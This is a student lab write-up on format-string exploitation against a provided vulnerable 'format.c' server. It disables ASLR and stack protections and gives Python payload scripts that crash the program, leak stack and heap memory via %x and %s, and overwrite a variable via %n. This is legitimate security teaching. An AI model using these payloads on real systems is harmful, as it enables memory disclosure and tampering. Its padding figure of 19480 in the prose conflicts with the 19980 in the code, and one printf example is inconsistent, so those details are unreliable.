


# Format Strings

## Setup

Before starting the tasks themselves, we had to deactivate a couple of security mechanisms Unix uses to prevent memory exploitation.

### Address Space Layout Randomization

> Address Space Layout Randomization (or `ASLR` for short) is a security measure that consists in randomly arranging the positions of a process's key address spaces, such as the base of the executable and the positions of the **stack**, **heap** and libraries.

Since this mechanism difficults guessing exact addresses, which is vital to perform format string attacks, we disabled it with the following command:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

### Non-executable Stack

> `Non-executable stack` is one of many executable-space protection mechanisms that marks the **stack** as non-executable, meaning all writable addresses stored on it cannot be executed.

Since one of our tasks was to exploit the format-string vulnerability to inject code into the program's stack and execute it, we deactivated it during compilation using the `-z execstack` flag.

Our compilation command was the following:

```bash
$ gcc -DBUF_SIZE=100 -z execstack -o format format.c
```

## Task 0: Understanding the Program

The vulnerable program we had to exploit in this lab was called "format.c". Its behaviour can be summarized like so:

1. Reads at most 1500 characters of user input and stores them in a character array called "buf".

```c
char buf[1500];
int length = fread(buf, sizeof(char), 1500, stdin);
```

2. Calls the function "myprintf()", passing it the "buf" variable.

```c
myprintf(buf);
```

3. "myprintf()" calls `printf()`, passing it its first argument. In this case, since "myprintf()" was called with "buf", the format string will be "buf".

```c
void myprintf(char *msg)
{
    // This line has a format-string vulnerability
    printf(msg);
}
```

The format-string vulnerability is present in "myprintf()", because the call to `printf()` this function encapsulates does not sanitize its content. So, considering `printf()` assumes the data needed to fill the placeholders are stored in the function's stack frame, if "myprintf()" were to be called with a string with placeholders, the program would print values present in the stack frame. 

As such, by construction a proper payload, executing "myprintf()" could lead to the divulgation of sensitive program data or the execution of malicious code.

## Task 1: Crashing the Program

Our first task was to crash the vulnerable program. We started by opening two terminals, one for running the server and another for communicating with it.

According to the guide, the server would output a message if it returned successfully upon printing our input, so we decided to test that by sending it a harmless message.

| Payload  | Server Response             |
|----------|-----------------------------|
| 'hi'     |  |

Now that we were aware of the output we did *not* want to receive, we started constructing our payload. Our first idea was to send the string `"%d"` because it would force the program to find an integer in the value immediately above the format string on the stack. Since there would be no integer above our format string, the program should crash.

However, our hypothesis did not turn out to be correct, as proven by the output below:

| Payload  | Server Response             |
|----------|-----------------------------|
| '%d'     |         |

This happened because the program interpreted the bytes above the format string as an integer, even if they represented something else entirely.

Next, we decided to send the `"%s"` string, thus making the program search for a pointer to a string in the value stored above the format string. We thought this approach would be more reliable, given that the program cannot simply interpret random values as pointers like it did with integers. 

The result of our experiment was as follows:

| Payload  | Server Response             |
|----------|-----------------------------|
| '%s'     |  |

Since neither our payload nor the 'Returned properly' message were output, that means we managed to crash the program!

## Task 2: Printing Out the Memory


### 2.A: Stack

The next task was to print data stored in the program's stack. More specifically, we had to print the first four bytes of our input, which would be stored somewhere on the stack.

Our plan was simple: input a string followed by several `%x` format specifiers. This would cause the program to print the values stored in the stack. As such, all we would have to do would be to find the hexadecimal value of our string.

In order to easily identify our string in the output, we decided that 0xAAAAAAAA would be its first four bytes. As for the number of format specifiers we would need, we opted to start with 100 and planned on increasing them if necessary.

Since creating the payload manually would be quite tedious, due to the amount of format specifiers we would have to write, we modified the "exploit.py" script that was provided in this lab.

```python
#!/usr/bin/python3
import sys

payload = bytearray.fromhex("A" * 8) + b"\n" + b" %x " * 100

# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(payload)
```

Upon running the script, we dispatched our payload to the server and obtained the following response:

| Payload  | Server Response             |
|----------|-----------------------------|
| badfile  |  |

By counting the amount of spaces between values, we concluded that our payload was the 64th value printed. Thus, we needed exactly 64 `%x` specifiers: 63 for printing the intermediate values and another one for the first four bytes of our string.

### 2.B: Heap

The objective of the next task was to print a secret message stored in the heap. The only information we were given was its address, which was printed by the server upon each request like so:


Having discovered in the previous section that our input was stored in the 64th value above the format string, we had the means to design a payload that would force the program to fetch it and access the content pointed by it.

In fact, if we wrote the address of the secret message followed by 63 `%x` format specifiers, we would be pointing to the memory region of our input. Then, by using a `%s` format specifier, the program would read the input - the address of the message - and access its memory location, outputting its content.

Once again, we modified "exploit.py" so that it would concoct our payload. To make it easier to read the output, we decided to add line breaks before and after the secret message.

```python
#!/usr/bin/python3
import sys

address = 0x080b4008 # the address of the secret message
payload = address.to_bytes(4, byteorder='little') + b"%x" * 63 + b"\n%s\n"

# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(payload)
```

After running the script, we sent the payload to the server and received the following output:

| Payload  | Server Response             |
|----------|-----------------------------|
| badfile  |  |

There it lay, the most secret of messages: 'A secret message'!

## Task 3: Modifying the Memory

The final two tasks involved using the format-string vulnerability to alter the value of a variable named "target". To do that, we reused the payload we used in the last section with a few modifications:

* Replace the address of the secret message with the address of "target".
* Replace the last format specifier, `%s`, with `%n`.

> The `%n` format specifier assigns a variable the count of the number of characters used in the print statement before its occurrence.

```c
// Example
int main() {
    int n;

    printf("Hello %n World!", &n);
    printf("%d", n); // "6"
}
```

These changes would make the program write the number of characters read in the format string into the memory location specified by our input, which would be the address of "target". Thus, we would effectively rewrite its value.

Thanfully, the server printed its address upon each request, as well its value before and after said request, so we had all the information we needed. 


### 3.A: Changing the value

Firstly, we were tasked with changing the value of "target". It did not matter what its final value was as long as it differed from its initial value, so, for simplicity, we decided that we would assign "target" the number of characters read in the format string.

To that end, we modified "exploit.py" like so:

```python
#!/usr/bin/python3
import sys

address = 0x080e5068 # the address of our target
payload = address.to_bytes(4, byteorder='little') + b"%x" * 63 + b"%n\n"

# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(payload)
```

Upon inputting the new payload, we obtained the following response:

| Payload  | Server Response             |
|----------|-----------------------------|
| badfile  |  |

We changed "target"!

### 3.B: Changing the value to 0x5000

Our final task consisted in changing the value of "target" to **0x5000**, which corresponds to 20480 in decimal base. In order to achieve that, we would have to create a payload that would make the program read precisely 20480 characters before reaching the `%n` format specifier, so that it would then assign "target" that value.

Since we had to specify the address of "target", 4 characters were already covered.However, there were still a few problems we had to solve:

* There was no way to know the number of characters each value in the stack would require to be written. Based on the output from the previoust tasks, values could need as few as one character or as many as 8. As such, we could not calculate how many more characters we would need to append to the format string.
* The server only accepted up to 1500 characters of user input, so we could not simply input the characters normally. 

To solve both of those problems, we used the `%N` format specifier.

> The `%N` format specifier, where N is an integer, adds padding on the **left** of a format string. If N is negative, the padding is added on the **right**. It is important to note that N represents the **size** of the format string with padding.

```c
// Example
int main() {
    printf("|%10s|", "Hello"); // "|    Hello!|"
    printf("|%-10s|", string); // "|Hello!    |"
}
```

With `%N`, we made it so the first 62 `%x` specifiers would take exactly 8 characters, which avoided the problem of figuring out how many characters would be output. We reserved the final `%x` specifier for the padding of the string. With that in mind, we calculated that we needed 20480 - 4 - 62 * 8 = **19480** characters of padding.

One last time, we modified "exploit.py" as such:

```python
#!/usr/bin/python3
import sys

address = 0x080e5068 # the address of our target
payload = address.to_bytes(4, byteorder='little') + b"%8x" * 62 + b"%19980x" + b"%n\n"

# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(payload)
```

Forwarding the final payload to the server net us the response below:

| Payload  | Server Response             |
|----------|-----------------------------|
| badfile  |  |

While the output looked a bit odd due to the padding, it was clear that the value of "target" was 0x5000. We did it!
